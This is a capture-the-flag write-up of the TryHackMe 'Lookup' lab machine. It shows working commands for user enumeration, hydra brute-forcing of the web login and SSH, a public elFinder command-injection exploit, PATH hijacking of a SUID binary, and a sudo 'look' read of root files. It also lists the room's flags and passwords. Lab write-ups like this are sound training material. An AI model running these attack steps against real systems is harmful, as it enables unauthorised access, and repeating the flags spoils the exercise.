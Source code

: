 
[[TryHackMe]] Room

**Date**: 17/01/25
**Target IP**: 10.10.88.15

---

## **Initial Scanning**

**[[Nmap]] Results:**

- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

---
## **Exploration and Enumeration**

Login Page discovered at **Port 80**. Wrong password alert allows user enumeration leading to discovery that ==`admin`== user exists.

**DirSearch Results**:

```bash
Target: http://lookup.thm/

[11:47:15] Starting: 
[11:47:23] 403 -  275B  - /.ht_wsr.txt
[11:47:23] 403 -  275B  - /.htaccess.bak1
[11:47:23] 403 -  275B  - /.htaccess.sample
[11:47:23] 403 -  275B  - /.htaccess.orig
[11:47:23] 403 -  275B  - /.htaccess.save
[11:47:23] 403 -  275B  - /.htaccess_sc
[11:47:23] 403 -  275B  - /.htaccess_extra
[11:47:23] 403 -  275B  - /.htaccess_orig
[11:47:23] 403 -  275B  - /.htaccessBAK
[11:47:23] 403 -  275B  - /.htaccessOLD
[11:47:23] 403 -  275B  - /.htm
[11:47:23] 403 -  275B  - /.htaccessOLD2
[11:47:23] 403 -  275B  - /.html
[11:47:23] 403 -  275B  - /.htpasswd_test
[11:47:23] 403 -  275B  - /.httr-oauth
[11:47:23] 403 -  275B  - /.htpasswds
[11:47:24] 403 -  275B  - /.php
[11:47:47] 200 -    1B  - /login.php
[11:47:58] 403 -  275B  - /server-status/
[11:47:58] 403 -  275B  - /server-status
```

Ran [[hydra]] to brute-force the login page using the username admin : 

```bash
❯ hydra -l admin -P /usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt lookup.thm -s 5000 http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password." -I -vV -c 3
```

Brute-forcing appears successful : 

```
[80][http-post-form] host: lookup.thm   login: admin   password: password123
```

However, this is not the correct password for the admin user. Rather when using this combination despite using an existing username, we obtain the message : `Wrong username or password. Please try again. Redirecting in 3 seconds.` 

This may be indicative that the password exists in the database but is for another user. We thus iterate through a username list with the password obtained: 

```bash
❯ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p password123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Please try again." -I -vV -t 30
```

We obtain the following:

```
[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

---
## **Exploitation**

On logging in successfully, we obtain an elFinder file management page. The files seem to be full of random text.

`credentials.txt` possesses the credentials `think : nopassword`.

Inspecting the version of elFinder we discover it is **2.1.47**. There exists a known exploit which can be used to gain a shell through command injection. https://www.exploit-db.com/exploits/46481

We use this and gain a shell as **www-data** :

```bash
❯ python2.7 exploit.py http://files.lookup.thm/elFinder
```

We can [[Shell Upgrade]] if necessary.



---
## **Post-Exploitation**

Running linpeas gives the following :

```bash
-rwsr-sr-x 1 root root 17K Jan 11  2024 /usr/sbin/pwm (Unknown SUID binary!)
```

Running this binary outputs the following :

```bash
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

Running strings on this file allows us to deduce that this is some sort of password manager script that runs the `id` command to check who the current use is.  This can be vulnerable as it does not seem to be running `/bin/id`, meaning we can create our own `id` script and fool it into running it.

This is done as follows : 

```bash
www-data@lookup:/tmp$ export PATH="/tmp:$PATH"

www-data@lookup:/tmp$ echo '#!/bin/bash' > /tmp/id

www-data@lookup:/tmp$ echo "echo 'uid=1000(think) gid=1000(think) groups=1000(think)'" >> /tmp/id

www-data@lookup:/tmp$ chmod +x id

www-data@lookup:/tmp$ /usr/sbin/pwm
```

We obtain a list of passwords used by the think user.

We can use these to brute-force SSH into said user with [[hydra]] :

```bash
❯ hydra -l think -P ./jose_passwords lookup.thm ssh -t 4

[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)

```

We thus obtain the **user flag** ( /home/think/user.txt ) :
**38375fb4dd8baa2b2039ac03d92b820e**

---
## **Escalation**

```
think@lookup:~$ sudo -l

User think may run the following commands on lookup:
(ALL) /usr/bin/look
```

think can run `/usr/bin/look` as sudo. We can thus refer to [GTFOBins](https://gtfobins.github.io/) and gain privileged access to the `/root/root.txt` file to read it as follows : 

```bash
think@lookup:~$ sudo look -bdf "" /root/root.txt
```

We thus obtain the Root Flag :
**5a285a9f257e45c68bb6c9f9f57d18e8**

---
## **Summary**

- Login Page credentials : **jose:password123**
- elFinder 2.1.47 command injection exploit (https://www.exploit-db.com/exploits/46481)
- Create malicious `id` binary and exploit `/usr/sbin/pwm`
- think user SSH password : **josemario.AKA(think)**
- User Flag ( /home/think/user.txt ) : **38375fb4dd8baa2b2039ac03d92b820e**
- Exploit /usr/bin/look sudo access (  [GTFOBins](https://gtfobins.github.io/))
- Root Flag ( /root/root.txt ) : **5a285a9f257e45c68bb6c9f9f57d18e8**